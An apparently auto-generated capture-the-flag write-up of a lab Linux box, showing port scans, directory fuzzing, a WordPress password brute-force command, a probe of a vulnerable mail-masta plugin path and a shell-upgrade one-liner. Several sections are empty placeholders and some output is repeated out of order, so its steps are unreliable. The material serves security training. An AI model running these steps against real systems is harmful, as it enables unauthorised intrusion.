

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 21/tcp open  ftp, 22/tcp open  ssh, 80/tcp open  http |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap


### Not implemented (not recorded in PDF)


### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
python3 ~/tool/search.py
wpscan --url http://$ip/wordpress --passwords /usr/share/wordlists/rockyou.txt
curl http://$ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?
python3 -c 'import pty;pty.spawn("/bin/bash")'
/etc/crontab: system-wide crontab
Unlike any other crontab you don't have to run the `crontab'
command to install the new version when you edit this file
and files in /etc/cron.d. These files also have username fields,
that none of the other crontabs do.
m h dom mon dow user  command
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```bash
All in One
July 1, 2023 16:13

#1
Explore quickly
Port 21 is open and anonymous login is allowed.
Port 22 is open and SSH
Check subdirectories that can be used by wordpress
┌──(n0z0㉿kali)-[~/work/thm]
└─$ python3 ~/tool/search.py
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method           : GET
:: URL              : http://10.10.198.161/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/SecLists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
:: Progress: [4715/4715] :: Job [1/1] :: 119 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
=== ffuf results ===
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 311ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 312ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4539ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 302ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 308ms]
wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 346ms]
=== nmap results ===
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 23:06 JST
Nmap scan report for 10.10.198.161
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.41.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
OneNote
1/7
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e25c3322765c9366cd969c166ab317a4 (RSA)
|   256 1b6a36e18eb4965ec6ef0d91375859b6 (ECDSA)
|_  256 fbfadbea4eed202b91189d58a06a50ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.12 seconds
#2
Since I use Wordpress, I immediately ran password analysis with wpsacn.
*Unable to analyze as it seems not to be on the password list
For now, I found out that I am using the user "elyana" on WordPress.
┌──(n0z0㉿kali)-[~/work/thm]
└─$ wpscan --url http://$ip/wordpress --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
__          _______   _____
\ \        / /  __ \ / ____|
\ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
\ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
\  /\  /  | |     ____) | (__| (_| | | | |
\/  \/   |_|    |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.22
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: http://10.10.198.161/wordpress/ [10.10.198.161]
[+] Started: Thu Jun 29 23:08:25 2023
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://10.10.198.161/wordpress/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
|  - http://codex.wordpress.org/XML-RPC_Pingback_API
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
|  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://10.10.198.161/wordpress/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Upload directory has listing enabled: http://10.10.198.161/wordpress/wp-content/uploads/
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://10.10.198.161/wordpress/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
|  - https://www.iplocation.net/defend-wordpress-from-ddos
|  - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
| Found By: Rss Generator (Passive Detection)
|  - http://10.10.198.161/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>
|  - http://10.10.198.161/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?
v=5.5.1</generator>
```

### Not implemented (not recorded in PDF)


💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
┌──(n0z0㉿kali)-[~/work/thm]
└─$ python3 ~/tool/search.py
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.198.161/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/SecLists/Discovery/Web-Content/common.txt
:: Progress: [4715/4715] :: Job [1/1] :: 119 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4539ms]
21/tcp open  ftp     vsftpd 3.0.3
2026/02/27 18:44
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
└─$ wpscan --url http://$ip/wordpress --passwords /usr/share/wordlists/rockyou.txt
\ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
\/  \/   |_|    |_____/ \___|\__,_|_| |_|
[+] URL: http://10.10.198.161/wordpress/ [10.10.198.161]
| Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
[+] XML-RPC seems to be enabled: http://10.10.198.161/wordpress/xmlrpc.php
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- ssh
- curl
- php
- GTFOBins
